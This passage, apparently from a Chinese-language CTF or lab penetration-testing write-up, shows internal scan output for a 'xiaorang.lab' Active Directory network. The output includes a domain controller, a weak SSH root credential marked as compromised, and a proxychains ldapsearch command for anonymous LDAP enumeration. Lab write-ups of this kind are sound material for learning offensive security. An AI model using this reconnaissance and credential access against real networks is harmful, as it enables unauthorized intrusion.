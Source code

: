 ```bash
172.22.61.50:139 open
172.22.61.34:135 open
172.22.61.50:135 open
172.22.61.17:135 open
172.22.61.50:80 open
172.22.61.17:88 open
172.22.61.41:3306 open
[*] alive ports len is: 13
start vulscan
[*] NetInfo:
[*]172.22.61.17
   [->]DC
   [->]172.22.61.17
   [->]2001:0:348b:fb58:383c:21f6:d89c:1748
[*] 172.22.61.17  (Windows Server 2016 Datacenter 14393)
[*] NetInfo:
[*]172.22.61.34
   [->]WIN2012
   [->]172.22.61.34
[*] NetBios: 172.22.61.17    [+]DC DC.xiaorang.lab               Windows Server 2016 Datacenter 14393 
[*] NetBios: 172.22.61.50    Web.xiaorang.lab                    Windows Server 2016 Datacenter 14393 
[*] NetBios: 172.22.61.34    WIN2012.xiaorang.lab                Windows Server 2012 R2 Datacenter 9600 
[*] WebTitle: http://172.22.61.50       code:200 len:24977  title:Zosimos
[+] SSH:172.22.61.41:22:root 123456
```

总结一下目标

```bash
172.22.61.17 DC 
172.22.61.34 WIN2012.xiaorang.lab 
172.22.61.50 Web.xiaorang.lab
172.22.61.41 拿下
```

DC 的 ldap 匿名访问

```bash
proxychains ldapsearch -H ldap://172.22.61.17 -b "DC=xiaorang,DC=lab" -x|grep ',CN=Users,DC=xiaorang,DC=lab'
```
